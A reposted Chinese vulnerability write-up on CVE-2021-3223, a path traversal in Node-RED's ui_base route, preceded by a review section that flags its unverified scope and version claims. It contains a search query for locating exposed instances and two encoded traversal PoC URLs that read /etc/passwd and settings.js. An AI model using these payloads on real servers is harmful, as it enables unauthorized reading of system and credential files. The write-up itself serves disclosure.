



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：仅写Node-RED，无Dashboard包范围、修复版本或HTTP鉴权前提

代码与实验材料：两条编码遍历路径与截图，但无环境、响应文本或补丁

来源证据范围：PeiQi公众号经MrWQ转载，缺上游公告

- **事实待核（1）**：把Dashboard插件路径直接归为Node-RED核心全版本；依据：/nodes/ui_base.js及/ui_base/js路由未给包名，影响只写Node-RED。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：缺版本和验证标准；依据：settings.js相对层级依部署不同，结果只在图中，未给修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Node-RED ui base 任意文件读取漏洞 CVE-2021-3223

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KRGKXAJQawXl88RBPTaAeg)


****

**一****：漏洞描述🐑**

**Node-RED 在 / nodes/ui_base.js 中，URL 与'/ui_base/js/*'匹配，然后传递给 path.join，**

**缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如 settings.js**

**二:  漏洞影响🐇**

**Node-RED**

**三:  漏洞复现🐋**

```
title="Node-RED"
```

**访问页面**



**验证 POC**

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```





 ****四: 关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**


最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**


**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
